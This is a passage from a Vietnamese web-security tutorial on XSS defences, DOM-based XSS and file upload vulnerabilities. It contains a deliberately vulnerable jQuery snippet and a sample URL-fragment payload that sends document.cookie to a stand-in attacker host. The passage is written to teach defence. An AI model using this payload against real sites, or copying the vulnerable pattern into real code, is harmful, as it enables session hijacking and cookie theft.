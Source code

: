 ```
<	&#60
>	&#62
```
##### 2. Dùng chính sách Content-Security
Các bạn có thể thêm thẻ meta này vào head
```
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://apis.google.com">
```

### DOM-based XSS
Lỗi này, về kịch bản thì giống y hết lỗi trên, nhưng về bản chất thì có chút khác biệt. 
+ Reflected XSS, khi nạn nhân click vào link chứa mã độc, đoạn mã sẽ được server nhận như 1 param gửi lên và trả về lại cho nạn nhân như một phần nội dung hợp lệ của trang
+ DOM-based thì trang web sẽ nhận luôn đoạn mã độc trang url và render luôn mà không gửi về server, vẫn hack được session, cookie của bạn thôi, không cần lo đâu =))

Kịch bản tấn công thì nó kiểu vậy: 

Giả dụ bạn có 1 trang có infinite scroll (cuộn vô tận, không phải cuộn vô cực), bình thường khi cuộn đến đoạn load thêm, url sẽ có dạng `www.chinterest.com#1`, `www.chinterest.com#2`...

Đoạn mã để load dữ liệu trang sẽ như vậy
```javascript
$(document).onload(function() {
  var page = window.location.hash;
  loadPage(page);

  $("#page-no").html(page);
});
```

Hacker sẽ lợi dụng và đổi phần sau # => `www.chinterest.com#<script>window.location="http://www.haxxed.com?cookie="+document.cookie</script>`

Khi đó trình duyệt sẽ load mã đọc như 1 script hợp lệ của trang và thực thi

#### Phòng chống
##### 1. Dùng JavaScript Framework
##### 2. Kiểm tra code của bạn cẩn thận
##### 3. Parse JSON cẩn thận
##### 4. Dùng Development Tools để phát hiện các đoạn mã không an toàn
##### 5. Không dùng Uri fragments
##### 6.  Dùng chính sách Content-Security

### Lỗ hổng bảo mật File Upload
Upload 1 file mã độc lên server, rồi gọi đên nó bằng api mặc định của hệ thống hoặc gọi trực tiếp nhờ lỗi Directory Traversal để thực thi file, hacker có thể chiếm quyền server của bạn, hoặc bắt khác hàng của bạn tải các file mã đọc hoặc nhiều thứ linh tinh nguy hiểm khác. Nó thường xuyên nằm trong top 10 lỗi bảo mật luôn đấy nhé.

